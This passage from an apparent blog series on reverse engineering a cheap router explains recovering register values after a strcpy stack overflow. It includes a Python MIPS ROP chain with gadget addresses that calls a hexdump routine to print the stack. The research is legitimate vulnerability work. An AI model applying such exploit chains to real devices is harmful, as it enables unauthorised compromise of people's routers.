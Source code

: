 ![3_bytes_7_bits_expected.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/3_bytes_7_bits_expected.png)

The last bit has 2 possible values, so we can just try both of these values for *$s0* in the overflow until there is not a crash - the last byte was determined to be *0x0* which makes sense because allignment.

So, here are the values we need to get back into the respective registers to continue execution:

| Register | Value |
|-|-|
| *$s0* | *0x802c0000* |
| *$s1* | *0x8025d500* |
| *$s2* | *0x802C5268* |
| *$s3* | *0x802ab9f4* |
| *$ra* | *0x801888e0* |

The last thing to mention about these addresses is that they contain 0's, which we obviously cannot send as this is a *strcpy* overflow. However, as long as *$s0* and *$s1* are alligned on the 4-byte boundary, they can be basically any value and nothing seems to break, which is good for us! I changed all of the 0's to 4's and tested with these values and there was no crash, nice.

## Reversing Stack Layout

We need to worry about more than just the registers, if we overflow a massive chunk of the stack, and destroy loads of previous stack frames in the process, it won't be very fun to clean up. We need to make sure the stack is in a recoverable state, and that the stack pointer is pointing to a valid location. 

The stack dump in the crash isn't useful as it starts at the current *$sp* and grows upwards, meaning the stack frame of the previous function call is not displayed.

To make reversing the stack layout easier, I found a *hexdump* function that hexdumps memory using a passed location and length, then crafted a ROP chain that would use this to print the stack to the debug shell:

```python
chain += p32(0x802ab980) # s0 (address to read)
chain += p32(0xdecea5ed) # s1
chain += p32(0xdecea5ed) # s2
chain += p32(0xdecea5ed) # s3
chain += p32(0xb0228 + base_address) # ra

# Move address into a0
# 0x000b0228: move $a0, $s0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdecea5ed) # s0
chain += p32(0x71b68 + base_address) # ra

# 0x00071b68: addiu $a1, $zero, 0x8bf; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x57864 + base_address) # ra

# Load and call hexdump
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(0x8019966c) # v0 - hexdump address
chain += b'b' * 8
chain += p32(0x15114 + base_address) # ra

# 0x00015114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0xdeadbeef) # ra
```
